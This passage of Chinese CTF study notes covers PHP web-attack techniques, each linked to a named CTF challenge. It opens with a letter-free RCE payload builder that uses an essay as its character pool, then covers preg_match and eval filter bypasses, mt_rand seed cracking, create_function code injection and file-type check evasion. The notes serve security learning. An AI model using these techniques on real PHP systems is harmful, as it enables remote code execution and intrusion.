下丰台大营的兵权，保了大清江山盛世的延续与稳固。那一夜，北京的漫天大雪绝不逊于今日，而昔人已作古，来者尚不能及，多么悲哀。这个古都承载着太多历史的厚重感，特别是下雪的季节，我可以想到乾清宫前广场上千百年寂寞的雕龙与铜龟，屋檐上的积雪，高高在上的鸱吻，想到数百年的沧桑与朝代更迭。雪停的那天我去了颐和园，我记得我等了很久才摇摇摆摆来了一辆公交车，车上几乎没有人，司机小心翼翼地转动着方向盘，在湿滑的道路上缓慢前行。窗外白茫茫一片，阳光照在雪地上有些刺眼，我才低下头。颐和园的学生票甚至比地铁票还便宜。在昆明湖畔眺望湖面，微微泛着夕阳霞光的湖水尚未结冰，踩着那些可能被御碾轧过的土地，滑了无数跤，最后只能扶着湖边的石狮子叹气，为什么没穿防滑的鞋子。昆明湖这一汪清水，见证了光绪皇帝被囚禁十载的蹉跎岁月，见证了静安先生誓为先朝而自溺，也见证了共和国以来固守与开放的交叠。说起来，家里有本卫琪著的《人间词话典评》，本想买来瞻仰一下王静安的这篇古典美学巨著，没想到全书多是以批判为主。我自诩想当文人的黑客，其实也只是嘴里说说，真到评说文章是非的时候，我却张口无词。倒是誓死不去发，这点确实让我无限感慨：中国士大夫的骨气，真的是从屈原投水的那一刻就奠定下来的。有句话说，古往今来中国三大天才死于水，其一屈原，其二李白，其三王国维。卫琪对此话颇有不服，不纠结王国维是否能够与前二者相提并论，我单喜欢他的直白，能畅快评说古今词话的人，也许无出其右了吧。人言可畏、人言可畏，越到现代越会深深感觉到这句话的正确，看到很多事情的发展往往被舆论所左右，就越羡慕那些无所畏惧的人，不论他们是勇敢还是自负。此间人王垠算一个，网络上人们对他毁誉参半，但确实有本事而又不矫揉做作，放胆直言心比天高的只有他一个了。那天在昆明湖畔看过夕阳，直到天空变的无比深邃，我才慢慢往家的方向走。耳机放着后弦的《昆明湖》，不知不觉已经十年了，不知道这时候他有没有回首望望自己的九公主和安娜，是否还能够“泼墨造一匹快马，追回十年前姑娘”。后来，感觉一切都步入正轨，学位证也顺利拿到，我匆匆告别了自己的大学。后来也遇到了很多事，事后有人找我，很多人关心你，少数人可能不是，但出了学校以后，又有多少人和事情完全没有目的呢？我也考虑了很多去处，但一直没有决断，倒有念怀旧主，也有妄自菲薄之意，我希望自己能做出点成绩再去谈其他的，所以很久都是闭门不出，琢磨东西。来到厦门，我还了一个愿，又许了新的愿望，希望我还会再次来还愿。我又来到了上次没住够的鼓浪屿，订了一间安静的房子，只有我一个人。在这里，能听到的只有远处屋檐下鸟儿叽叽喳喳的鸣叫声，远处的喧嚣早已烟消云散，即使这只是暂时的。站在屋顶的我，喝下杯中最后一口水。清晨，背着行李，我乘轮渡离开了鼓浪屿，这是我第二次来鼓浪屿，谁知道会不会是最后一次。我在这里住了三天，用三天去寻找了一个答案。不知不觉我又想到辜鸿铭与沈子培的那段对话。“大难临头，何以为之？”“世受国恩，死生系之。”';
    $payload = "$_POST[1]";
    $result = "";
    $num = 0;
    for ($i = 0; $i < mb_strlen($str, 'utf-8'); $i++) {
     
        $st = mb_substr($str, $i, 1, 'utf-8');//每次取一个
        $a = ~($st);
        $b = $a[1];//汉字的第一位
        if ($b == $payload[$num] && $num != strlen($payload)) {
            $num++;
            $result .= $st;
        }
        if ($num === strlen($payload)) {
            break;
        }
    }
    echo $result;
    ```

#### 4.9.2 `preg_match()` 相关绕过方法

1. 如果 `preg_match()` 中指定的表达式**没有** `/s`，那么他默认**只匹配第一行**。而且如果**表达式**末尾是 `$`，那么其会**忽略末尾的 `%0a` 换行符**。
    例题：[FBCTF2019]RCEService 1、[MRCTF2020]套娃 1

2. PHP 利用 PCRE 回溯次数限制绕过 `preg_match()`。
    详见 P 神的文章：

    > https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html

    例题：[FBCTF2019]RCEService 1

3. 如果 `preg_match()` 接收的参数/变量是数组，那么其会返回 false 而不是数字 0 或 1。

#### 4.9.3 无参数构造 RCE

1. 首先，无参数构造 RCE 的底层和无字符 RCE 一样，也就是输入的 Payload 一定会被当成 PHP 代码执行（常见的特征就是 `eval()` 的参数）。

2. 其次，这种题目常见的 `preg_match` 过滤表达式就是：
    ```php
    if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp']){
        eval($_GET['exp']);
    }
    ```

    也就是说，输入的表达式经过过滤后，只剩下一个 `;`，匹配的规则大概是“单个无参函数”和“单个无参函数内的嵌套”，因为一旦有参数，就会引入 `'` 和 `"`，从而不满足表达式。

3. 参考：

    > https://blog.csdn.net/Manuffer/article/details/120738755

    文章总结的很好，内容比较全，用到直接打就行。

4. 参考例题：[TSCTF-J2024]RCE_ME!!!

### 4.10 `basename()` 利用

1. 这篇文章写的很好：

    > https://www.cnblogs.com/yesec/p/15429527.html

2. 例题也就是 [Zer0pts2020]Can you guess it? 1

3. 但是我本地测试了一下，却没有这种效果，应该是某些 PHP 版本会这样。

### 4.11 PHP mt_rand() 破解

1. 主要看这篇文章：

    > https://www.freebuf.com/vuls/192012.html
    > https://www.openwall.com/php_mt_seed/README

2. 这里主要强调一下：
    工具 php_mt_seed 中，两个参数表示“函数 `mt_rand()` 首次输出的范围。”
    四个参数的前两个参数和两个参数时的结果一样。但是后两个参数表示**传入 `mt_rand()` 函数时指定的随机数范围**。而在文章中，说的是：
    

3. 以 [GWCTF 2019]枯燥的抽奖 1 为例，首先题目给出了随机数的使用：
    ```php+HTML
    Jpao49vN7F
    <?php
    #这不是抽奖程序的源代码！不许看！
    header("Content-Type: text/html;charset=utf-8");
    session_start();
    if(!isset($_SESSION['seed'])){
    $_SESSION['seed']=rand(0,999999999);
    }
    
    # 指定了随机数的种子
    mt_srand($_SESSION['seed']);
    $str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    $str='';
    $len1=20;
    for ( $i = 0; $i < $len1; $i++ ){
        # 这里的意思是从 $str_long1 中随机抽一个字符出来拼接。
        # 可以看到 mt_rand() 的范围就是 0 ~ strlen($str_long1) - 1
        $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
    }
    $str_show = substr($str, 0, 10);
    echo "<p id='p1'>".$str_show."</p>";
    
    
    if(isset($_POST['num'])){
        if($_POST['num']===$str){x
            echo "<p id=flag>抽奖，就是那么枯燥且无味，给你flag{xxxxxxxxx}</p>";
        }
        else{
            echo "<p id=flag>没抽中哦，再试试吧</p>";
        }
    }
    show_source("check.php"); 
    ```

4. 题目给出了前 10 个字符，那么结合变量 `$str_long1`，我们可以反推出前 10 个数所生成的数字：
    ```python
    def main():
        str1 = 'Jpao49vN7F'
        str2 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ"
        result = ''
    
        length = str(len(str2) - 1)
        for i in range(0, len(str1)):
            for j in range(0, len(str2)):
                if str1[i] == str2[j]:
                    # 根据四个字符的格式，前两个字符代表首次输出范围，这里就是固定的一个数字，后两个字符代表随机数总的范围，那就是 0 ~ 字符串的长度 - 1
                    result += str(j) + ' ' + str(j) + ' ' + '0' + ' ' + length + ' '
                    break
    
        print(result)
    
    
    if __name__ == '__main__':
        main()
    ```

5. 然后通过工具 php_mt_seed，爆破出随机数的种子，最后使用固定种子 `mt_srand(种子数)` 跑一遍题目的思路，拿到完整的全部字符串（注意 PHP 版本）。

### 4.12 `create_function()` 代码注入

1. 这个函数的相关用法如下：

    > https://www.php.net/manual/zh/function.create-function.php

    `create_function(string $args, string $code): string`。简单来说，第一个参数用来指定所创建函数的参数列表，第二个参数里面是函数体内容。

2. 这个函数最大的问题在于，其底层执行 `$code`  的函数是 `eval()`，这就导致一个问题，如果第二个参数可控，即 `$code` 可控时，那么就可以向内注入 PHP 代码，从而执行。
    举个例子：

    ```php
    $funcName = create_function('$a, $b', 'return $a + $b;');
    # 输出 3
    echo $funcName(1, 2);
    # $funcName = create_function('$a, $b', 'return $a + $b;'); 等价于：
    function funcName($a, $b)
    {
        return $a + $b;
    }
    ```

    但是如果第二个参数可控，那么就会导致：
    ```php
    $funcName = create_function('$a, $b', 'return $a + $b;}echo "injected";//');
    $funcName(1, 2);
    ```

    此时就会导致：
    
    这个时候生成的函数的代码其实是：

    ```php
    function funcName()
    {return $a + $b;}echo "injected";//}
    ```

    插入的代码就会进入到 `eval()` 中被执行。

3. 例题：[BJDCTF2020]EzPHP

### 4.13 `url_parse()` 解析漏洞

1. 先看看 `url_parse()` 在官方中的使用方法：

    > https://www.php.net/manual/zh/function.parse-url.php
    > 总结一下需要注意的点：
    >
    > 1. 第二个参数 `component` 可以指定返回的内容，如果指定了返回 `string` 而不是 `array`，不存在的话还回返回 `null`。
    > 2. 对严重不合格的 URL，会返回 `false`。

2. 这位师傅的文章总结的很多：

    > http://pupiles.com/%E8%B0%88%E8%B0%88parse_url.html

    平常的知识点应该足以应付了，以后如果有遇到，就找个时间再补。

3. 参考例题：[N1CTF 2018]eating_cms

## 5. 杂项知识点

1. 个人感觉是特别偏或者少见的知识点，偏杂项。也许某个地方会用到吧。

### 5.1 `finfo_file()` 和 `getimagesize()` 的特征

1. 例题：[HarekazeCTF2019] Avatar Uploader 1

2. 参考链接：

    > https://blog.csdn.net/weixin_44037296/article/details/112604812
    > https://www.cnblogs.com/zhoulujun/p/15113029.html

3. 这两个函数应该都可以用于获取文件的类型。在官方页面，对于 `finfo_file()` 下方，有人提出该函数可能有安全问题：
    

4. 函数`finfo_file()`其主要是识别 **PNG** 文件十六进制下的第一行信息（保留其 `IHDR` 文件头数据块），若保留文件头信息，破坏掉文件长宽等其余信息，也就可以绕过`getimagesize()` 函数的检验。也就是说，只要前十六进制是 PNG 的格式，那么 `finfo_file()` 就会返回 PNG 结果，但是 `getimagesize()` 返回的数组中的内容不会表明其为 PNG。
    

5. TODO：PHP 源码分析，这里 `finfo_file()` 函数的特性必定要分析 PHP 的核心源码。
    先贴个教程：

    > https://blog.csdn.net/weixin_33819479/article/details/89275055

### 5.2 `create_fuction()` 返回匿名函数的命令格式

1. 官方的使用方法：

    > https://www.php.net/manual/zh/function.create-function.php
    > Returns a unique function name as a string, 或者在失败时返回 **`false`**. Note that the name contains a non-printable character **(`"\0"`)**, so care should be taken when printing the name or incorporating it in any other string.

2. 返回值用变量接住，这个变量就当函数名了，但是它还有另外一个名称：
    `\0lambda_数字`。

3. 数字部分从 `1` 开始，每有一个匿名函数，后面的数字 `++`：
    

4. 例题：[SUCTF 2018]annonymous
